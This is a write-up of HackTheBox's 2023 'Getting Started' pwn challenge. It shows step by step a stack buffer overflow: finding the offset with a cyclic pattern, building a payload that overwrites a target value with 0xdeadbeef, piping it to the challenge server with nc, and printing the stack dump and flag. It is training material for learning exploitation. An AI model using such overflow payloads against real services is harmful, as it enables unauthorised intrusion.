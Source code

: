 ```yaml
---
name: Getting Started (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Getting Started (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Getting Started

## Description

> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

Generate a cyclic pattern and send it to the program as input and check which bytes make it into the RIP, then unhex and find the offset.

```bash
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

unhex 6161616c6161616b

cyclic -l laaa
44
```

Create a payload and send it to the server.

```bash
python2 -c 'print "A" * 44 + "\xef\xbe\xad\xde"' > payload

nc 209.97.129.76 30115 < payload
```

Receive flag 🙂

```bash
      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd6d3fc690 | 0x4141414141414141 <- Start of buffer
0x00007ffd6d3fc698 | 0x4141414141414141
0x00007ffd6d3fc6a0 | 0x4141414141414141
0x00007ffd6d3fc6a8 | 0x4141414141414141
0x00007ffd6d3fc6b0 | 0x4141414141414141 <- Dummy value for alignment
0x00007ffd6d3fc6b8 | 0xdeadbeef41414141 <- Target to change
0x00007ffd6d3fc6c0 | 0x0000557386505800 <- Saved rbp
0x00007ffd6d3fc6c8 | 0x00007f02fd685c87 <- Saved return address
0x00007ffd6d3fc6d0 | 0x0000000000000001
0x00007ffd6d3fc6d8 | 0x00007ffd6d3fc7a8

HTB{b0f_s33m5_3z_r1ght?}
```
